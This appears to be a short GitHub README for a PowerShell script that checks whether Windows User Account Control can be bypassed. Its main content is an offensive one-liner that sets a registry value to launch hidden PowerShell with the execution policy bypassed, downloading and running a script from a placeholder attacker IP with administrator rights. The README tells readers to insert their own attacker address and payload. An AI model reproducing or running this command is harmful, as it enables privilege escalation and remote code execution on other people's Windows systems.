 # UAC-Bypass-Checker
This is a Powershell script made to check if you can bypass UAC.

----------IMPORTANT----------

Change the CHANGETHIS username to your actual username LINE 17 & LINE 21

We can use the following command to download and execute a powershell script as an administrator bypassinc UAC (change the attacker IP & script.ps1 for what you need).

```
$RegValue = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep Bypass -windowstyle hidden -nop iex (New-Object Net.WebClient).DownloadString('http://IPattacker/script.ps1'); Invoke-Function"
```

